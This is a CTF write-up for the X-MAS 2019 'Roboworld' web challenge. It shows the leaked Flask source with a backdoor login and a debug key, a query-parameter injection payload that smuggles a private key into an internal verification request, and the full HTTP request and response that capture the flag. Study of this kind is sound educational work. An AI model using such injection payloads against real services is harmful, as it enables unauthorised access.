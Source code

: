 # X-MAS CTF 2019 – Roboworld

* **Category:** web
* **Points:** 50

## Challenge

> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> 
> Can you figure out what's wrong and access the secret files?
> 
> Remote server: http://challs.xmas.htsp.ro:11000
>
> Files: [leak.py](leak.py)
>
> Author: Reda

## Solution

The webpage contains the following HTML code.

```html
<head>
    <script>
        function captchaGenerateVerificationValue()
        {
            //Devnote:
            //Oops I broke the captcha verification function
            //so it will just generate random stuff for the verification value
            //hope no one notices :O

            var characters       = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
            var charactersLength = characters.length;
            result = ""
            for ( var i = 0; i < 10; i++ ) {
                result += characters.charAt(Math.floor(Math.random() * charactersLength));
            }

            document.getElementById("captcha").value = result
        }
    </script>
</head>

Login:

<form method="post" action="/login">
    Username: <input type="text" name="user" /><br>
    Password: <input type="password" name="pass" /><br>
    Captcha: <input id="captcha" onchange="captchaGenerateVerificationValue()" type="checkbox" name="captcha_verification_value" value="" /> I am not a robot <br>
    <input type="submit" value="Login" /><br>
</form>
```

So the CAPTCHA checkbox produces random string.

Analyzing the [leak.py](leak.py) file you can discover that the following credentials are used to login:
* username: `backd00r`;
* password: `catsrcool`.

```python
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

Then you have to beat an HTTP GET service available only on localhost. It consumes the CAPTCHA token and a private key that is redacted in the source code.

A TODO comment claims that there is a debugging private key for used for testing: `8EE86735658A9CE426EAF4E26BB0450E`. This seems to be the MD5 of the string: `fuckingdog`.

You can manipulate the link used in the `requests.get` operation, via CAPTCHA parameter, excluding the existing private key parameter through `#` and forcing the debugging private key.

The payload is the following.

```
pwned&privateKey=8EE86735658A9CE426EAF4E26BB0450E#
```

So the following HTTP request can be used.

```
POST /login HTTP/1.1
Host: challs.xmas.htsp.ro:11000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://challs.xmas.htsp.ro:11000
Connection: close
Referer: http://challs.xmas.htsp.ro:11000/
Upgrade-Insecure-Requests: 1

user=backd00r&pass=catsrcool&captcha_verification_value=pwned%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E%23

HTTP/1.1 302 FOUND
Server: nginx
Date: Mon, 16 Dec 2019 21:48:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 251
Location: http://challs.xmas.htsp.ro:11000/dashboard_jidcc88574c
Connection: close
Vary: Cookie
Set-Cookie: session=eyJsb2dnZWQiOnRydWV9.Xff7wQ.nX353pLhy-6ES9lB32QOopGmz-Y; HttpOnly; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/dashboard_jidcc88574c">/dashboard_jidcc88574c</a>.  If not click the link.
```

The page where you will be redirect is the following

```html
<h2>Welcome to the secret website where we store secret stuff</h2>
<br>
<br>
Secret Stuff:
<br>
<a href="/static/hidden_directory_1337_781/098c533dc5420628a9f51c1911198c4c.jpg">098c533dc5420628a9f51c1911198c4c.jpg</a>
<br>
<a href="/static/hidden_directory_1337_781/2.jpg">2.jpg</a>
<br>
<a href="/wtf.mp4">wtf.mp4</a>
```
It will contains three files:
* [098c533dc5420628a9f51c1911198c4c.jpg](098c533dc5420628a9f51c1911198c4c.jpg);
* [2.jpg](2.jpg);
* [wtf.mp4](wtf.mp4).

Inside the [wtf.mp4](wtf.mp4) video there is the flag, reversed in order.

```
X-MAS{Am_1_Th3_R0bot?_0.o}
```
